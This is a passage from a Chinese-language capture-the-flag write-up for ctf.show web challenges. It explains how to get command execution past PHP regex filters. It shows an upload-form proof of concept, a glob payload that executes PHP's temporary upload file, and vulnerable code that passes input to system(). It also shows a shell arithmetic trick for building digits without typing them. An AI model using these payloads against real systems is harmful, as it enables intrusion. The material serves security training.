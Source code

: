 2、我们可以发送一个上传文件的POST包，此时PHP会将我们上传的文件保存在临时文件夹下，默认的文件名是`/tmp/phpXXXXXX`，文件名最后6个字符是随机的大小写字母。然后我们可以用通配符去匹配执行这个文件，能够匹配上`/???/?????????`这个通配符的文件有很多，但干扰我们的文件的所有文件名都是小写，只有PHP生成的临时文件包含大写字母。所以我们只要找到一个可以表示“大写字母”的glob通配符，就能精准找到我们要执行的文件。翻开ascii码表，可见大写字母位于`@`与`[`之间。

明白原理之后，就开始操作，首先构造一个post上传文件的数据包，

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://e4098f9c-7071-475c-9e45-5d143c1f1082.challenge.ctf.show:8080/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

上传文件，然后抓包，构造poc执行命令：`?c=.%20/???/????????[@-[]`

![image-20210714155357075](C:\Users\shuoke\AppData\Roaming\Typora\typora-user-images\image-20210714155357075.png)

接下来更改上传文件中的shell命令就行，每次上传的文件不一定有大写的文件名，有时需要多上传几次。

## web57

```php
<?php
// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```

两个通配符被过滤了，所以只能`$c="36"`，但数字又被过滤了，这里想办法构造36，因为没过滤`$`，所以可以用到以下方法：

> `$(())` 代表做一次运算，因为里面为空，也表示值为0
> `$((~$(())))` 对0作取反运算，值为-1
> `$(($((~$(())))$((~$(())))))` -1-1，也就是(-1)+(-1)为-2，所以值为-2
> `$((~$(($((~$(())))$((~$(())))))))` 再对-2做一次取反得到1，所以值为1
